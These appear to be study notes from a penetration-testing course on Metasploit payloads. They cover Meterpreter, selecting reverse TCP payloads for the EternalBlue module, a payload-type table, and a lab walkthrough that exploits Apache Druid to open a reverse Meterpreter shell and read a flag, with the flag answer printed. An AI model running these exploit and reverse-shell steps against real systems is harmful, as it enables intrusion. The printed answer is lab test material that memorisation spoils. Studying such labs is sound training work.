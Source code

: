 # Payloads
## Meterpreter Payload
The Meterpreter payload is a specific type of multi-faceted payload that uses DLL injection to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes. Meterpreter resides completely in the memory of the remote host and leaves no traces on the hard drive, making it very difficult to detect with conventional forensic techniques. In addition, scripts and plugins can be loaded and unloaded dynamically as required.

It offers us a plethora of useful commands, varying from keystroke capture, password hash collection, microphone tapping, and screenshotting to impersonating process security tokens. We will delve into more detail about Meterpreter in a later section.
## Searching for Payloads
**MSF - List Payloads**
```
msf6 > show payloads
```
**MSF - Searching for Specific Payload**
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter show payloads
```
Now we can add another grep command after the first one and search for `reverse_tcp`.
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads
```

## Selecting Payloads
To set the payload for the currently selected module, we use `set payload <no.>` only after selecting an Exploit module to begin with.
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs



msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads

   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)


msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp
```
After selecting a payload, we will have more options available to us.
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```
## Using Payloads
**Note**: `Meterpreter` has its own commands. Use `help` to view all the available commands. We also see the option to open a shell channel. This will place us in the actual Windows command-line interface.
```
meterpreter > shell

Process 2664 created.
Channel 1 created.

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users>
```
## Payload Types
The table below contains the most common payloads used for Windows machines and their respective descriptions.
|Payload|Description|
|-|-|
|`generic/custom`|Generic listener, multi-use|
|`generic/shell_bind_tcp`|Generic listener, multi-use, normal shell, TCP connection binding|
|`generic/shell_reverse_tcp`|Generic listener, multi-use, normal shell, reverse TCP connection|
|`windows/x64/exec`|Executes an arbitrary command (Windows x64)|
|`windows/x64/loadlibrary`|Loads an arbitrary x64 library path|
|`windows/x64/messagebox`|Spawns a dialog via MessageBox using a customizable title, text & icon|
|`windows/x64/shell_reverse_tcp`|Normal shell, single payload, reverse TCP connection|
|`windows/x64/shell/reverse_tcp`|Normal shell, stager + stage, reverse TCP connection|
|`windows/x64/shell/bind_ipv6_tcp`|Normal shell, stager + stage, IPv6 Bind TCP stager|
|`windows/x64/meterpreter/$`|Meterpreter payload + varieties above|
|`windows/x64/powershell/$`|Interactive PowerShell sessions + varieties above|
|`windows/x64/vncinject/$`|VNC Server (Reflective Injection) + varieties above|

## Questions
1. Exploit the Apache Druid service and find the flag.txt file. Submit the contents of this file as the answer. **Answer: HTB{MSF_Expl01t4t10n}**
   - Use msfconsole and search for the Apach Druid service using: `search Apache Druid`
   - Use the module `exploit(linux/http/apache_druid_js_rce)`
   - Set the `LHOST` (host's IP) and `RHOSTS` (target's IP) as required and run the exploit
        ```
        [msf](Jobs:0 Agents:0) exploit(linux/http/apache_druid_js_rce) >> exploit
        [*] Started reverse TCP handler on 10.10.14.80:4444 
        [*] Running automatic check ("set AutoCheck false" to disable)
        [+] The target is vulnerable.
        [*] Using URL: http://10.10.14.80:8080/VnRMccqIo
        [*] Client 10.129.203.52 (curl/7.68.0) requested /VnRMccqIo
        [*] Sending payload to 10.129.203.52 (curl/7.68.0)
        [*] Sending stage (3090404 bytes) to 10.129.203.52
        [*] Meterpreter session 1 opened (10.10.14.80:4444 -> 10.129.203.52:60956) at 2025-10-01 10:18:18 -0500
        [*] Command Stager progress - 100.00% done (113/113 bytes)
        [*] Server stopped.

        (Meterpreter 1)(/root/druid) > shell
        find / -name "flag.txt"
        /root/flag.txt
        cat /root/flag.txt
        HTB{MSF_Expl01t4t10n}
        ```